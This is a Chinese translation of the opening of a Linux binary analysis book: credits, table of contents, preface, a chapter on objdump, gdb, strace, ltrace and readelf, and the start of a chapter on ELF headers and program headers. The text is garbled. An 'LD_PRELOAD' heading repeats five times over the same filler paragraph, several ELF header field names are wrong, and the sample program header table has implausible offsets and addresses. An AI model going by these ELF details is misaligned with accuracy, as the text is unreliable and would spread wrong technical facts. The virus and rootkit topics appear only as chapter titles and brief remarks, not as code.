


# Linux 二进制分析入门指南

# 鸣谢名单

## 作者
- Ryan "elfmaster" O'Neill

## 项目协调员
- Judie Jose

## 审稿员
- Lubomir Rintel
- Kumar Sumeet
- Heron Yang

## 校对员
- Safis Editing

## 索引员
- Tejal Daruwale Soni

## 内容开发编辑
- Sanjeet Rao

## 设计
- Jason Monteiro

## 技术编辑
- Mohita Vyas

## 制作协调员
- Aparna Bhagat

## 文案编辑
- Vikrant Phadke

## 封面设计
- Aparna Bhagat

# 关于作者

Ryan "elfmaster" O'Neill 是一位计算机安全研究人员和软件工程师，拥有逆向工程、软件利用、安全防御和取证技术背景。他成长于计算机黑客亚文化，即 EFNet 世界、BBS 系统以及具有可执行栈的系统上的远程缓冲区溢出领域。他从小就开始接触系统安全、漏洞利用和病毒编写。他对计算机黑客的热爱已演变为对软件开发和专业安全研究的热情。Ryan 曾在多个计算机安全会议（如 DEFCON 和 RuxCon）上发表演讲，并主持过为期两天的 ELF 二进制黑客工作坊。

Ryan 拥有非常充实的职业生涯，曾在 Pikeworks、Leviathan Security Group 等优秀公司工作过，最近在 Backtrace 担任软件工程师。

Ryan 没有出版过其他书籍，但他因在 Phrack 和 VXHeaven 等在线期刊上发表的一些论文而闻名。他的许多其他出版物可以在他的网站 `http://www.bitlackskeys.org` 上找到。

# 感谢

首先，我要向我的母亲 Michelle 表示最诚挚的感谢，我将这本书献给她。这一切始于她为我买了第一台电脑，随后是大量的书籍，涵盖了从 Unix 编程到内核原理再到网络安全的各个领域。生活的某个时刻，我曾以为自己要和计算机永远告别了，但 5 年后，当我想要重燃激情时，我发现我把书都扔了！我随后发现母亲暗中为我保存了它们，等待着我回归它们的那一天。感谢你，你太棒了，我爱你。

如果我不感谢我今天生活中最重要的女性，将是不职业的，她是我的灵魂伴侣，我孩子的母亲。毫无疑问，没有你，我的生活和职业将无法取得今天的成就。人们说，每一个伟人的背后都有一个更伟大的女性。

我也要感谢我的父亲 Brian，他带给我的生活许多意义。

最后，我要感谢我的孩子们 Jayden 和 Jolene。

# 支持文件、电子书、优惠及更多

如需与您的书籍相关的支持文件和下载，请访问 `www.PacktPub.com`。

您知道 Packt 为每本出版的书籍都提供电子书版本，并提供 PDF 和 ePub 文件吗？您可以在 `www.PacktPub.com` 升级电子书版本，作为纸质书客户，您有权获得电子书副本的折扣。请通过 `service@packtpub.com` 与我们联系以获取更多详情。

在 `www.PacktPub.com`，您还可以阅读一系列免费技术文章，订阅各种免费新闻邮件，并接收 Packt 图书和电子书的独家折扣和优惠。


`https://www2.packtpub.com/books/subscription/packlib`

您需要针对 IT 问题的即时解决方案吗？PacktLib 是 Packt 的在线数字书库。在这里，您可以搜索、访问并阅读 Packt 的整个书籍库。

## 为什么要订阅？

- 可全文搜索 Packt 出版的每本书
- 复制和粘贴、打印和书签内容
- 按需随用，可通过网络浏览器访问

## Packt 账户持有者的免费访问

如果您在 `www.PacktPub.com` 拥有 Packt 账户，您现在可以使用它访问 PacktLib 并查看 9 本完全免费的书。只需使用您的登录凭据即可立即访问。

# 目录

## 第 1 章：Linux 环境及其工具
- Ltrace
- 链接器相关的环境变量
- PT_LOAD
- .data 段

## 第 2 章：ELF 格式
- ELF 文件类型
- ELF 文件头
- 程序头
- 节头部

## 第 3 章：Linux 进程跟踪
- ptrace 的重要性
- ptrace 请求
- 基于进程寄存器的状态和标志
- 一个简单的基于 ptrace 的调试器
- 使用跟踪器程序
- 带有进程附加功能的简单调试器
- 高级函数跟踪软件

## 第 4 章：ELF 病毒技术 – Linux/Unix
- Linux 病毒简史
- 经典的 Linux 病毒
- 现代 Linux 病毒技术
- 二进制感染方法

## 第 5 章：Linux 二进制保护
- 基于安全漏洞的攻击
- 其他资源
- 总结

## 第 6 章：Linux 中的 ELF 二进制取证
- 检测入口点修改的科学
- 识别寄生代码特征
- 检查动态段的注入痕迹
- 识别反文本填充感染
- 识别文本段填充感染
- 识别受保护的二进制文件
- 分析受保护的二进制文件
- IDA Pro
- 总结

## 第 7 章：进程内存取证
- 进程看起来像什么样？
  - 可执行内存映射
  - 程序堆
  - 共享库映射
  - 栈、vdso 和 vsyscall
- 进程内存感染
  - 进程感染工具
  - 进程感染技术
  - 注入方法
  - 劫持执行的技术
- 检测 ET_DYN 注入
  - Azasel wonderland rootkit 检测
  - 映射进程地址空间
  - 在栈上寻找 LD_PRELOAD
  - 检测 PLT/GOT 钩子
  - 识别错误的 GOT 地址
- ET_DYN 注入内部原理
  - 示例——寻找 `__libc_dldopen_mode` 的符号
  - 代码示例——`__libc_dldopen_mode` shellcode
  - 代码示例——libc 符号解析
  - 代码示例——在 x86_64 上 `mmap()` 一个 ET_DYN 对象
  - 操纵 VDSO 执行脏工作
  - 共享对象加载——是合法的还是不合法的？
    - 合法的共享对象加载
    - 不合法的共享对象加载
  - so 注入检测的启发式
  - 检测 PLT/GOT 钩子的工具
- Linux ELF 核心文件
  - 核心文件分析——Azasel rootkit
  - 启动注入的进程并获取核心转储
  - 核心文件头
  - PT_SEGMENT
  - PT_LOAD 段与核心文件取证的局限
  - 使用 GDB 核心文件进行取证
- 总结

## 第 8 章：ECFS – 扩展核心文件快照技术
- 历史
- ECFS 哲学
- 开始使用 ECFS
  - 将 ECFS 接入核心处理程序
  - 在不杀死进程的情况下进行 ECFS 快照
- libecfs – 一个用于解析 ECFS 文件的库
- readecfs
- 使用 ECFS 检查受感染进程
  - 感染宿主进程
  - 捕获并分析 ECFS 快照
  - 符号分析表
  - 节头部分析
  - 使用 readecfs 提取寄生代码
  - 分析 Azazel 用户级 rootkit
  - 重建 host2 进程的符号表
  - 重建 host2 进程的节头部表
  - 使用 ECFS 验证 PLT/GOT
  - 用于 PLT/GOT 验证的 readecfs 输出
- ECFS 参考指南
  - ECFS 符号表重建
  - ECFS 节头部
  - 将 ECFS 文件作为普通 core 文件使用
  - libecfs API 及其用法
- 使用 ECFS 进行进程通灵
- 学习 ECFS
- 总结

## 第 9 章：Linux /proc/kcore 分析
- Linux 内核取证与 rootkits
  - 原始 vmlinux 无符号
  - 构建合适的 kcore 并进行 GDB 探索
  - `/proc/An` 遍历 sys_call_table 的示例
- 直接修改 sys_call_table
  - 检测 sys_call_table 的修改
  - 验证系统调用完整性的示例
  - 内核函数跳板/trampolines
    - 函数跳板的示例
    - 在 32 位内核上劫持 sys_write 的示例代码
  - 检测函数跳板
    - 使用 ret 指令的示例
    - 使用间接跳转的示例
    - 使用相对跳转的示例
  - 中断处理程序补丁 – int 0x80, syscall
  - 检测中断处理程序补丁
- Kprobe rootkits
  - 检测 kprobe rootkits
- 调试寄存器 rootkits – DRR
  - DRR
- VFS 层 rootkits
  - 检测 VFS 层 rootkits
  - 验证 VFS 函数指针的示例
- 其他内核感染技术
  - vmlinux 和 .altinstructions 补丁
    - .altinstructions 和 .altinstr_replace
    - 自 `arch/x86/include/asm/asm_alternative.h`
    - 使用 textify 验证内核代码完整性
    - 使用 textify 检查 sys_call_table 的示例
  - 使用 taskverse 查看隐藏进程
    - Taskverse 技巧
- 已受感染的 LKMS – 内核驱动程序
  - 感染 LKM 文件的方法 1 符号劫持
  - 感染 LKM 文件的方法 2（函数劫持）
  - 检测受感染的 LKMs
- 关于 /dev/kmem 和 /dev/mem 的说明
  - /dev/kmem
    - FreeBSD/dev/kmem
- K-ecfs – 内核 ECFS
  - 内核-ecfs 文件的预览
- 内核破解小技巧
  - 通用逆向工程与调试
  - 高级内核破解/调试接口
- 本章中提到的论文
- 总结

- 索引

# 前言

软件工程是创造一种在微处理器上存在、生存和呼吸的发明的行为。我们称之为程序。逆向工程是精确发现该程序内部如何生存和呼吸的行为，此外，它是我们结合反汇编器和逆向工程工具，并依靠我们的黑客直觉来掌握目标程序，从而理解、剖析或修改该程序行为的方法。我们必须理解二进制格式、内存布局和处理器指令集的复杂性。因此，我们成为了赋予程序生命本身的大师。本书将为你提供成为 Linux 二进制黑客所需的恰当课程、洞察和任务。当一个人可以自称为逆向工程师时，他们将自己提升到了超越纯工程水平的高度。一个真正的黑客不仅能编写代码，还能通过剖析、反汇编二进制文件和内存段来修改软件程序的内部机制；这种力量……

无论在专业领域还是爱好者层面，我都在计算机安全领域使用我的逆向工程技能，无论是漏洞分析、恶意软件分析、反病毒软件、rootkit 检测还是病毒设计。本书将侧重于安全。我们将分析内存转储、进程映像，并探索二进制分析中一些更晦奥的区域，包括 Linux 感染和二进制取证。我们将剖析被恶意软件感染的可执行文件并感染正在运行的进程。本书旨在解释 Linux 逆向工程所需的组件，因此，我们将深入学习 ELF（可执行和链接格式），它是用于可执行文件、共享库、核心转储和对象文件的二进制格式。二进制分析中最重要的方面之一是……

本书的目标是教你通过 ECFS（扩展核心快照技术，一种新的开源产品）进行深度内存分析。你将获得关于 Linux 保护、内存和动态链接的深度知识。

## 本书需要的

我们假设你对 Linux 命令行知识、全面的 C 编程技能以及对 x86 汇编语言有基础的了解。有一种说法：“如果你能读懂汇编语言，那么一切都是开源的。”

## 本书涵盖

- **第 1 章：Linux 环境及其工具**，对 Linux 环境和工具进行简要描述，我们在书中将使用。
- **第 2 章：ELF 格式**，帮助你学习 ELF 格式的主要组件。
- **第 3 章：Linux 进程跟踪**，教你如何使用 `ptrace` 系统调用读取和写入内存。
- **第 4 章：ELF 病毒技术 – Linux/Unix**，你在这里发现 Linux 病毒的过去、现在和未来。
- **第 5 章：Linux 二进制保护**，解释了二进制保护的基础。
- **第 6 章：Linux ELF 取证**，你在这里学习如何剖析 ELF 对象以寻找病毒、后门和可疑注入。
- **第 7 章：进程内存取证**，向你展示如何剖析进程地址以寻找恶意软件。
- **第 8 章：ECFS – 扩展核心快照技术**，是 ECFS 的介绍。
- **第 9 章：Linux /proc/kcore 分析**，展示了如何通过 `/proc/kcore` 进行内存分析检测 Linux 内核恶意软件。

## 约定

当我们希望你注意代码块中的特定部分时，相关的行或项目将以加粗形式显示：

```
0xb755a990 changed to [0x80848376]
[+] Patched GOT with PLT rebuilt ELF object from memory
Output executable location: dumpme.out
[Quenya v0.18@ELFWWorkshop]
quit
```

任何命令行输入或输出的格式如下：

```
hacker@ELWorkshop:~/
workshop/labs/exercise_9$ /dumpme.out
```

> **警告**或重要的注意事项将出现在像这样的框中。

> **提示和技巧**将像这样所示。

## 读者反馈

我们随时欢迎读者的反馈。请告诉我们对这本书的看法——你喜欢或不喜欢的地方。读者的反馈对我们来说非常重要，因为它能帮助我们开发出让你从中真正获益的书籍。

要发送通用反馈，请发送电子邮件至 `feedback@packtpub.com`，并在邮件主题中注明书名。

如果您在某个领域拥有专长，并对编写或贡献书籍感兴趣，请访问我们的作者指南 `www.packtpub.com/authors`。

## 客户支持

现在你已经是 Packt 书籍的幸运主人了，我们有很多方法帮助你从购买中获得最大的价值。

## 下载示例代码

您可以从 `http://www.packpub.com` 账户下载购买的所有 Packt 书籍的示例代码文件。如果您是在其他地方购买的这本书，可以访问 `http://www.packpub.com/support` 并注册，通过电子邮件直接接收文件。

## 问题

# 第 1 章：Linux 环境及其工具

## Linux 环境及其工具

在本章中，我们将探索 Linux 环境以及可用于二进制分析的工具。我们将从查看 Linux 环境本身开始，然后转向安全研究人员使用的一些常用工具。

Linux 环境是一个强大且灵活的平台，广泛应用于各种场景，从服务器到嵌入式系统。在书中，你将学习如何导航 Linux 环境，以及如何使用它的工具来发现和利用漏洞。

我们将涵盖的工具包括 `objdump`、`gdb`、`objcopy`、`strace` 和 `ltrace`。这些都是二进制分析必不可少的工具，我们将向你展示如何有效地使用它们。

到本书结束，你将对 Linux 环境以及如何在 Linux 上进行二进制分析有坚实的理解。你也将能够发现并利用 Linux 中的漏洞。

## Linux 内核与工具概述

Linux 内核是一个开源操作系统内核，广泛用于各种设备。它是 Linux 操作系统的核心，负责管理硬件和软件。内核负责 CPU 管理、内存管理和文件系统管理等任务。

Linux 上有很多可用于二进制分析的工具。在本章中，我们将重点介绍最常用的几个：`objdump`、`gdb`、`objcopy`、`strace` 和 `ltrace`。

- **objdump** 是一个用于显示二进制文件内容的工具。它可以用于查看二进制文件的段（sections）、符号（symbols）和代码。
- **gdb** 是一个强大的调试器，可用于调试程序。它可以发现并修复错误，或分析漏洞。
- **objcopy** 是一个用于修改二进制文件的工具。它可以将段从一个二进制文件复制到另一个。
- **strace** 是一个用于跟踪系统调用的工具。它可以查看程序在运行时执行了哪些系统调用。
- **ltrace** 是一个用于跟踪库调用的工具。它可以查看程序调用了哪些库函数。

在本章中，我们将向你展示如何使用这些每个工具进行二进制分析。


### objdump

`objdump` 是一个用于显示二进制文件内容的工具。它可以用于查看二进制文件的段、符号和代码。

以下是使用 `objdump` 的示例：

- 查看二进制文件的所有段：
  ```
  objdump -h <binary>
  ```

- 查看二进制文件的所有符号：
  ```
  objdump -t <binary>
  ```

- 查看二进制代码：
  ```
  objdump -d <binary>
  ```

- 查看二进制头信息：
  ```
  objdump -x <binary>
  ```

### gdb

`gdb` 是一个强大的调试器，可用于调试程序。它可以发现并修复错误，或分析漏洞。

以下是使用 `gdb` 的示例：

- 使用程序启动 `gdb`：
  ```
  gdb <binary>
  ```

- 设置断点：
  ```
  break <function>
  ```

- 运行程序：
  ```
  run
  ```

- 单步执行代码：
  ```
  next
  ```

- 查看寄存器：
  ```
  info registers
  ```

### objcopy

`objcopy` 是一个用于修改二进制文件的工具。它可以将段从一个二进制文件复制到另一个。

以下是使用 `objcopy` 的示例：

- 从一个二进制文件复制 `.data` 段到另一个：
  ```
  objcopy --only-section=.data <infile> <outfile>
  ```

- 从二进制文件中删除一个段：
  ```
  objcopy --remove-section=<section_name> <binary>
  ```

### strace

`strace` 是一个用于跟踪系统调用的工具。它可以查看程序在运行时执行了哪些系统调用。

以下是使用 `strace` 的示例：

- 跟踪程序：
  ```
  strace <binary>
  ```

- 跟踪已运行的进程：
  ```
  strace -p <pid>
  ```

- 仅跟踪特定的系统调用：
  ```
  strace -e trace=<syscall> <binary>
  ```

### ltrace

`ltrace` 是一个用于跟踪库调用的工具。它可以查看程序调用了哪些库函数。

以下是使用 `ltrace` 的示例：

- 跟踪程序：
  ```
  ltrace <binary>
  ```

- 仅跟踪特定的库函数：
  ```
  ltrace -e <function> <binary>
  ```

### 基本 ltrace 命令

使用 `-s` 标志，你除了库函数调用外还可以看到系统调用。`ltrace` 命令旨在提供更详细的信息，因为它解析可执行文件的动态段，并打印共享库和静态库中的实际符号/函数。

```bash
ltrace <program> -o program.out
```

### ftrace

函数跟踪 (`ftrace`) 是由我设计的一个工具。它类似于 `ltrace`，但它还能显示二进制文件内部的函数调用。在 Linux 中，我没有找到其他公开可用可以实现此功能的工具，所以我决定编写它。你可以在 https://github.com/elfmaster/ftrace 找到该工具。下一章将提供该工具的演示。

### readelf

`readelf` 命令是分析 ELF 二进制文件最有用的工具之一。它提供了在进行逆向工程之前收集对象信息所需的每一个 ELF 特有数据。该工具将贯穿本书，用于收集有关符号、段、节、重定位条、数据动态链接等信息。`readelf` 命令被比为二进制格式的“瑞士军刀”，以下是一些最常用的标志：

- 获取节头表：
  ```
  readelf -S <object>
  ```

- 获取程序头表：
  ```
  readelf -l <object>
  ```

- 获取符号表：
  ```
  readelf -s <object>
  ```

- 获取 ELF 文件头数据：
  ```
  readelf -e <object>
  ```

- 获取重定位条目：
  ```
  readelf -r <object>
  ```

- 获取动态段：
  ```
  readelf -d <object>
  ```

### ERESI – ELF 逆向工程系统接口

ERESI 项目 (http://www.eresi-project.org) 包含了一系列工具，它们是 Linux 二进制黑客的梦想。遗憾的是，其中许多工具没有进行更新，且无法完全兼容 64 位 Linux。然而，它们存在于多种架构中，无疑是当今用于破解 ELF 二进制文件目的最具创新性的单一工具集合。我个人并不熟悉使用 ERESI 项目的工具，而且由于它们不再更新，我不会在本书书中探索它们的功能。不过，有两篇 Phrack 文章展示了 ERESI 工具的创新性和强大功能：

- Cerberus ELF 接口 (http://www.phrack.org/archives/issues/61/8.txt)
- 嵌入式 ELF 调试 (http://www.phrack.org/archives/63/9.txt)

### 有用的设备和文件

Linux 拥有许多文件、设备和 `/proc` 条目，它们对于热衷的黑客和逆向工程师非常有帮助。在本书中，我们将演示其中许多文件的用处。以下是书中一些常用文件的描述。

### /proc/<pid>/maps

`/proc/<pid>/maps` 文件通过显示每个内存映射来包含进程映像的布局。这包括可执行文件、共享库、栈、堆、VDSO 等。这对于快速解析进程地址空间的布局至关重要，并在书中被多次使用。

### /proc/kcore

`/proc/kcore` 是 proc 系统中的一个项，充当 Linux 内核的动态转储。也就是说，它是以 ELF 转储文件形式呈现的内存原始导出，可以使用 GDB 调试和分析内核。我们将在第 9 章“Linux /proc/kcore 分析”中深入探讨 `/proc/kcore`。

### /boot/System.map

该文件在几乎所有的 Linux 发行版可用，对内核黑客非常有用。它包含了整个内核的每一个符号。

### /proc/kallsyms

`kallsyms` 与 `System.map` 非常相似，但它是一个 `/proc` 条目，这意味着它由内核维护并动态更新。因此，如果安装了任何新的内核模块 (LKM)，符号将动态添加到 `/proc/kallsyms` 中。`/proc/kallsyms` 至少包含了内核中的大部分符号，如果内核配置 `CONFIG_KALLSYMS_ALL` 中指定了，则它将包含所有符号。

### /proc/iomem

`iomem` 是一个类似于 `/proc/<pid>/maps` 的 proc 条目，但针对整个系统内存。例如，如果你想知道内核文本段映射在物理内存的哪里，你可以搜索“Kernel”字符串，你将看到代码/文本段、数据段和 bss 段：

```bash
$ grep Kernel /proc/iomem
01000000-016d9b27 : Kernel code
016d9b28-01ceceebf : Kernel data
01df0000-01f2f6ff : Kernel bss
```

### ECFS

扩展核心文件快照 (ECFS) 是一种特殊的内核转储技术，专门为进程映像的取证分析而设计。该软件的代码可以在 https://github.com/elfmaster/ecfs 找到。此外，第 8 章“EFS – 扩展核心文件快照技术”专门解释什么是 ECFS 以及如何使用它。对于那些对高级内存取证感兴趣的人，你们将会关注。

### 与链接器相关的环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

### LD_PRELOAD 环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

### LD_PRELOAD 环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

### LD_PRELOAD 环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

### LD_PRELOAD 环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

### LD_PRELOAD 环境变量

动态加载器/链接器的链接概念是链接和执行过程中不可或缺的组件。在本书中，你将学习到许多这些内容。

## 2. ELF 二进制格式

为了对 Linux 二进制文件进行逆向工程，你必须理解二进制格式本身。ELF 已成为 Unix 和类 Unix 操作系统的标准二进制格式。在 Linux、BSD 变体和其他操作系统，ELF 格式用于可执行文件、共享库、对象文件、转储文件（dump files）以及内核启动镜像。这对于希望更好地理解逆向工程、二进制破解和底层分析的人来说非常重要。像 ELF 这样的二进制格式通常并不简单，学习 ELF 需要在学习过程中不断应用所学的不同组件。要达到精通，实际经验是必不可少的。ELF 格式复杂且枯燥，但当你将自己不断发展的计算机科学组成知识应用于程序加载、动态链接、符号表查找以及许多其他紧密协作的组件时，就能从中获得乐趣。

我认为这一章是全书中最重要的一章，因为它将让读者对程序如何在磁盘上映射以及加载到内存中的主题有更深入的见解。程序执行的内部机制是复杂的，理解它对于志成为二进制黑客、逆向工程师或低级程序员来说，是极价值的知识。在 Linux 中，程序执行就意味着 ELF 二进制格式。

我学习 ELF 的方法是像任何 Linux 逆向工程师应该那样研究 ELF 规范，然后以创意的方式应用我们所学的每个方面。在本书中，你将接触 ELF 的许多方面，并看到它的知识如何与病毒、进程内存取证、二进制保护、根内核程序（rootkits）等密切相关。

### ELF 二进制格式

在本章中，你将涵盖以下 ELF 主题：

- ELF 文件类型
- 程序头（Program headers）
- 节头（Section headers）
- 符号（Symbols）
- 重定位（Relocations）
- 动态链接（Dynamic linking）
- 编写一个 ELF 解析器

### ELF 文件类型

ELF 文件可以被标记为以下类型之一：

- `ET_NONE`：这是一个未知类型。它表示文件类型未知或尚未定义。
- `ET_REL`：这是一个可重定位文件。ELF 可重定位类型意味着该文件被标记为可重定位的代码段，有时称为对象文件。可重定位对象文件通常是位置无关代码（PIC）文件的片段，这些片段尚未被链接到可执行文件中。你经常会在编译代码库中看到 `.o` 文件。这些文件是包含适用于创建可执行文件的代码和数据的文件。
- `ET_EXEC`：这是一个可执行文件。ELF 可执行类型意味着该文件被标记为可执行文件。这类文件也被称为程序，是进程启动的入口。
- `ET_DYN`：这是一个共享对象。ELF 动态意味着该文件被标记为动态可链接对象文件，也称为共享库。这些共享库在运行时加载并链接到程序的镜像中。
- `ET_CORE`：这是一个 ELF 类型的核心，用于标记核心转储文件（core file）。核心转储文件是程序崩溃期间或进程交付 `SIGSEGV` 信号（段错误）时完整进程镜像的转储。GDB 可以读取这些文件并辅助调试，以确定导致程序崩溃的原因。

如果我们使用 `readelf -h` 命令查看 ELF 文件，就可以查看初始的 ELF 文件头（ELF header）。ELF 头从 ELF 文件的偏移量 0 处开始，作为通往文件其余部分的映射。主要，该头标记了 ELF 类型、架构以及开始执行的入口（entry point），并提供了指向其他类型 ELF 头（节头和程序头）的偏移量，这些将在稍后详细解释。一旦我们解释了节头和程序头的含义，就能理解更多关于文件头的内容。查看 Linux 中的 `ELF(5)` man 页面向我们展示了 ELF 头结构：

```c
typedef struct {
    unsigned char e_ident[EI_NIDENT];
    uint16_t e_type;
    uint16_t e_machine;
    uint32_t e_version;
    Elf64_Addr e_entry;
    Elf64_Off e_phoff;
    Elf64_Off e_shoff;
    uint32_t e_flags;
    uint16_t e_hsize;
    uint16_t e_phent;
    uint16_t e_phnum;
    uint16_t e_shent;
    uint16_t e_shnum;
    uint16_t e_shstrndx;
} Elf_Ehdr;
```

在本章后面的部分，我们将看到如何利用此结构体中的字段通过一个简单的 C 程序映射出一个 ELF 文件。首先，我们将继续查看存在的其他类型的 ELF 头。

### ELF 程序头

ELF 程序头描述了二进制文件中的段（segments）是什么，并且对于程序加载是必要的。段在加载时由内核理解，并描述了可执行文件在磁盘上的内存布局以及它应该如何转换到内存。可以通过引用初始 ELF 头成员 `e_phoff`（程序头表偏移量）中的偏移量来访问程序头表，如显示 1.7 中的 `Elf_Ehdr` 结构所示。

我们在这里将讨论五种常见的程序头类型。程序头描述了可执行文件（包括共享库）的段以及它是什么种类型的段（即它是为什么类型的数据或代码预留的）。首先，让我们看看 `ELF32_Phdr` 结构：

```c
typedef struct {
    uint32_t p_type;      /* 段类型 */
    uint32_t p_offset;    /* 段偏移 */
    Elf32_Addr p_vaddr;   /* 虚拟地址 */
    Elf32_Addr p_paddr;   /* 物理地址 */
    uint32_t p_filesz;    /* 文件中的大小 */
    uint32_t p_memsz;     /* 内存中的大小 */
    uint32_t p_flags;     /* 标志：执行|读|写 */
    uint32_t p_align;     /* 段对齐 */
} Elf32_Phdr;
```

### PT_LOAD

可执行文件始终至少有一个 `PT_LOAD` 段。这种类型的程序头描述了一个可加载的段，意味着该段将被加载或映射到内存中。

例如，具有动态链接的可执行文件通常包含以下两个段（类型为 `PT_LOAD`）：

- 代码段
- 以及全局变量的段

上述两个段将被映射到内存，并根据 `p_align` 存储的值进行对齐。我建议阅读 man 页面以理解 `Phdr` 中的所有成员，它们描述了段在文件和内存中的布局。

程序头主要用于描述程序在执行和在内存中的布局。我们将在本章晚些时候利用 `Phdr` 来演示它们是什么以及如何在逆向工程中使用它们。

文本段（也称为代码段）的段权限通常设置为 `PF_X | PF_R`（执行+读）。数据段的段权限通常设置为 `PF_W | PF_R`（读写）。感染多态病毒的文件可能会通过在程序头的段中添加 `PF_W` 标志以某种方式修改文本段使其可写。

### PT_DYNAMIC - 动态段程序头

动态段特定于动态链接的可执行文件，包含了动态链接器所需的信息。该段包含标记值和指针，包括但不限于：

- 运行时要链接的共享库列表
- 在 ELF 动态链接章节中讨论的全局偏移表（GOT）地址/位置
- 关于重定位条目的信息

以下是标签名称的完整列表：

| 标签名称 | 描述 |
|---|---|
| `DT_HASH` | 符号哈希表地址 |
| `DT_STRTAB` | 字符串表地址 |
| `DT_SYMTAB` | 符号表地址 |
| `DT_RELA` | Rela 重定位表地址 |
| `DT_RELASZ` | Rela 表字节数 |
| `DT_RELAENT` | 每个 Rela 条目的字节数 |
| `DT_STRSZ` | 字符串表字节数 |
| `DT_SYMENT` | 符号表项的大小（字节） |
| `DT_INIT` | 初始化函数的地址 |
| `DT_FINI` | 终止函数的地址 |
| `DT_SONAME` | 共享对象名称的字符串表偏移 |
| `DT_RPATH` | 库搜索路径的字符串表偏移 |
| `DT_SYMBOLIC` | 提示链接器在搜索可执行文件符号之前先搜索此共享对象 |
| `DT_REL` | Rel 重定位表的地址 |
| `DT_RELSZ` | Rel 表的大小（字节） |
| `DT_RELENT` | Rel 项的大小（字节） |
| `DT_PLTREL` | PLT 所引的重定位类型（Rela 或 Rel） |
| `DT_DEBUG` | 调试用，未定义 |
| `DT_TEXTREL` | 缺失此标签表示不应对非可写段应用任何重定位 |
| `DT_JMPREL` | 仅用于 PLT 的重定位条目地址 |
| `DT_BIND_NOW` | 指示动态链接器在将控制权转移给可执行文件之前处理所有重定位 |
| `DT_RUNPATH` | 库路径的字符串表偏移 |

动态段包含一系列持有动态链接信息的结构。`d_tag` 成员控制 `d_un` 的解释。

32位 ELF 动态结构体：

```c
typedef struct {
    Elf32_Word d_tag;
    union {
        Elf32_Word d_val;
        Elf32_Addr d_ptr;
    } d_un;
} Elf32_Dyn;
extern Elf32_Dyn _DYNAMIC[];
```

我们将在本章的后面探索更多关于动态链接的内容。

### PT_NOTE

类型为 `PT_NOTE` 的段可能包含与特定厂商或系统的辅助信息。以下是正式 ELF 规范中 `PT_NOTE` 的定义：


有时，厂商或系统构建者需要为对象文件标记特殊信息，其他程序将检查这些符合性、兼容性等。类型为 `NOTE` 的段和类型为 `PT_NOTE` 的程序头元素可用于此目的。段和程序头元素中的信息包含任意数量的条目，每个条目都是一个按目标处理器格式的 4 字节字数组。下方列出的标签旨在帮助解释 note 的组织，但它们不是规范的一部分。

一个感兴趣点是：由于此段仅用于操作系统规范，且可执行文件运行实际上并不需要（因为系统如何都会假设可执行文件是原生的），此段成为了病毒感染的一个有趣位置，尽管由于大小限制，这不一定是最实用的方法。关于 `NOTE` 段的一些信息可以在 http://vxheavens.com/lib/vhe06.html 处找到。

## PT_INTERP

此小段仅包含一个描述程序解释器位置和大小的空 结尾的字符串；例如，`/lib/linux-ld.so.2` 通常是动态链接器的位置，它也是程序解释器。

## PT_PHDR

此段包含程序头表本身的位置和大小。Phdr 表包含所有描述文件段（以及内存镜像段）的 Phdrs。

请查阅 `ELF(5)` 手页或 ELF 规范以查看所有可能的 Phdr 类型。我们涵盖了最常见的类型，这些类型对程序执行至关重要，或者我们在逆向工程尝试中最经常遇到。

我们可以使用 `readelf -l <filename>` 命令来查看文件的 Phdr 表：

```
Elf file type is Exec (Executable file)
Entry point 0x8049a30
There are 9 program headers, starting at offset 52
```

## ELF 二进制格式

### 程序头

| 类型 (Type) | 偏移量 (Offset) | 虚拟地址 (VirtAddr) | 物理地址 (PhysAddr) | 文件大小 (FileSize) | 内存大小 (MemSize) | 标志 (Flg) | 对齐 (Align) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PHDR | 0x00000034 | 0x00000000 | 0x00000000 | 0x00000020 | 0x00000020 | | 0x00000 |
| INTERP | 0x00000054 | 0x00000000 | 0x00000000 | 0x00000014 | 0x00000014 | R | 0x00000 |
| LOAD | 0x00000013 | 0x0804a000 | 0x00000000 | 0x00000200 | 0x00000200 | R | 0x00000 |
| LOAD | 0x000002c8 | 0x0804a000 | 0x00000000 | 0x00000400 | 0x00000400 | RW | 0x00000 |
| DYNAMIC | 0x000002f0 | 0x0804b000 | 0x00000000 | 0x000003e0 | 0x000003e0 | R | 0x00000 |
| NOTE | 0x000003e0 | 0x0804b000 | 0x00000000 | 0x000000c8 | 0x000000c8 | R | 0x00000 |
| GNU_HE | 0x00000104 | 0x0804c000 | 0x00000000 | 0x000000a0 | 0x000000a0 | RW | 0x00000 |
